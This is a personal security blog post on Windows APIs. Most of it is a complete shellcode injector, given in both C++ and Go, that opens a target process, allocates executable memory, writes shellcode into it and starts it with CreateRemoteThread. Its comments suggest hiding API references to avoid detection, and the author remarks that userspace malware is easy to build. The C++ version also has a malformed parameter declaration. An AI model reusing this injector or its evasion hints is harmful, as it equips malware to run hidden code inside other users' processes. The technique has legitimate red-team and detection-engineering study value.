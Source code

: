 ```yaml
---
title: "Approaching Windows"
date: 2021-06-01T00:41:45+02:00
draft: false
toc: false
images:
tags:
  - 0x03
  - windows
  - api 
  - clueless
  - cpp
  - c++
  - go
 
---
```


Well, hello there! Last few weeks have been a little busy between my mere analog life and ~~pwning industrial ovens~~ work.
Lately I have been banging my head against this thing known as **Windows**. 

Its APIs to be precise, as I am trying to move out of my comfort zone of "development" (I am by **no means** a developer, but when I make stuff, it's usually on Linux). 

As a side note, while we're talking about development, I recently decided to produce a rip-off of the amazing [xsshunter](https://xsshunter.com) and write it in Go. 
Mostly as a learning exercise for Go stuff. It's coded like shit, and currenty on the low priority list, so feel free to hop in and [help](https://github.com/thatsn0tmysite/xsserve).

Now, back to Windows. While there are a lot of complaints I have, mostly about situations where you read the documentation and end up facing a dead end because whatever you are looking at is undocumented... and the only information you can find about the topic is from some temporary account on codeproject, which made a stackoverflow question 8 years ago, which he self-answered. For Windows XP, SP1.

Looking at you "dwData" pointers...

So, to try and keep this post half-useful, I am gonna paste here a shellcode injector written in both, C++ and Go; using the overly (ab)used CreateRemoteThread technique.

The idea is simple, we just create a thread on a remote process, and give it our shellcode to run, this will run inside another process and will stay "in memory". 
To do this we will need a way obtain a handle of a give process (**OpenProcess**), to allocate memory area and make it executable (**VirtualAllocEx** and **VirtualProtectEx**), to write to said area (**WriteProcessMemory**) and finally a way to create the remote thread  (**CreateRemoteThread**).

This is a pretty standard way. So let's get threading!

```C++
#include <windows.h>
#include <processthreadsapi.h>
#include <memoryapi.h>

int Inj_CreateRemoteThread(UINT pid, BYTE[] shellcode, SIZE_T sh_size) {
	HANDLE hProc, hThread;
	LPVOID lpStartAddress;
	int writeProcError;
	DWORD lpflOldProtect = PAGE_READWRITE;

	//Get a handle from the given pid
	hProc = OpenProcess(PROCESS_ALL_ACCESS, TRUE, pid);
	if (!hProc) {
		return -1;
	}

	//Allocate some space into the remote process, big enough to host our shellcode.	
	lpStartAddress = (LPVOID)VirtualAllocEx(hProc, NULL, sh_size, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (lpStartAddress == NULL) {
		return -2;
	}

	//Write our shellcode to the allocated memory on the remote process,
	writeProcError = WriteProcessMemory(hProc, lpStartAddress, shellcode, sh_size, NULL);
	if (writeProcError == 0) {
		return -3;
	}

	//Create & run a remote thread which points to the start of the memory holding the shellcode
	//we are discarding the handle to the thread, this might not be what you want in a real scenario.
	hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)lpStartAddress, NULL, 0, NULL);
	if (hThread == NULL) {
		return -5;
	}

	//Close the open handles
	CloseHandle(hProc);

	return 0;
}
```

And now the exact same thing, but in Go:

```go
import (
	"syscall"
	"unsafe"
	"golang.org/x/sys/windows"
)

var (
	//DLLs
	kernel32 = syscall.NewLazyDLL("kernel32.dll")
	user32   = syscall.NewLazyDLL("user32.dll")
	ntdll    = syscall.NewLazyDLL("ntdll.dll")
)

const (
	PAGE_EXECUTE_READWRITE = 0x40
	PAGE_EXECUTE_READ      = 0x20
	PROCESS_ALL_ACCESS     = 0x1F0FFF
)

func Inj_CreateRemoteThread(pid int, shellcode []byte) (err error) {
	//You might want to encrypt references, these may look vErY SuSpIcIouS ;)
	virtualAllocEx := kernel32.NewProc("VirtualAllocEx")
	openProcess := kernel32.NewProc("OpenProcess")
	virtualProtectEx := kernel32.NewProc("VirtualProtectEx")
	writeProcessMemory := kernel32.NewProc("WriteProcessMemory")
	createRemoteThread := kernel32.NewProc("CreateRemoteThread")
	closeHandle := kernel32.NewProc("CloseHandle")

	memProtect := windows.PAGE_READWRITE

	//Get a handle from the given pid
	handle, _, err := openProcess.Call(PROCESS_ALL_ACCESS, 0, uintptr(pid))
	if isErr(err) != nil {
		return err
	}

	//Allocate some space into the remote process, big enough to host our shellcode.
	lpStartAddress, _, err := virtualAllocEx.Call(uintptr(handle), 0, uintptr(len(shellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if isErr(err) != nil {
		return err
	}

	//Write our shellcode to the allocated memory on the remote process
	_, _, err = writeProcessMemory.Call(uintptr(handle), lpStartAddress, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)), 0)
	if isErr(err) != nil {
		return err
	}

	//Change the memory to be executable
	//WARN: this is unneeded if we change VirtualAllocEx to set the memory as PAGE_EXECUTE_READWRITE
	_, _, err = virtualProtectEx.Call(uintptr(handle), lpStartAddress, uintptr(len(shellcode)), windows.PAGE_EXECUTE_READ, uintptr(unsafe.Pointer(&memProtect)))
	if isErr(err) != nil {
		return err
	}

	//Create & run a remote thread which points to the start of the memory holding the shellcode
	//we are discarding the handle to the thread, this might not be what you want in a real scenario.
	_, _, err = createRemoteThread.Call(uintptr(handle), 0, 0, lpStartAddress, 0, 0, 0)
	if isErr(err) != nil {
		return err
	}

	//Close the process handle
	_, _, err = closeHandle.Call(uintptr(handle))
	if isErr(err) != nil {
		return err
	}

	return nil
}
```

As you see, the process is almost the same, mostly thanks to the **golang.org/x/sys/windows**  package. Now, in a real-world scenario just plain injecting the shellcode may not be as easy, as the injector is still highly easy to spot (common API pattern, cleartext references, etc).

Anyhow, Windows makes it generally pretty straight forward to perform operations on remote processes, no wonder userspace malwares are so popular! They are easy to implement, quick to develop and if they get caught, well... just make a new one.

I do plan on eventually sharing other snippets for stuff I find interesting, Windows-related... this is if I don't get slapped to numbness with a printed version of MSDN by my friend that has been trying to get me to learn all this shit. 

Over and out.

-----------

**Update:**

As I was testing (and correcting) the C++ code I noticed there was a useless step in the function: I was allocating an area as Read-Write and only later modifying it to be executable.
This was indeed unneeded. 

While it worked, one can totally skip the **VirtualProtectEx** in the Go version, and just do as the updated C++ code: calling VirtualAlloc with `PAGE_EXECUTE_READ_WRITE`.

I'll leave the Go version as a reference for stupid code and use this as an excuse to avoid modifying it because I really want to watch another episode of Battle Star Galactica, instead of removing a few lines of code. I'm lazy, fight me...or don't, it's less tiring.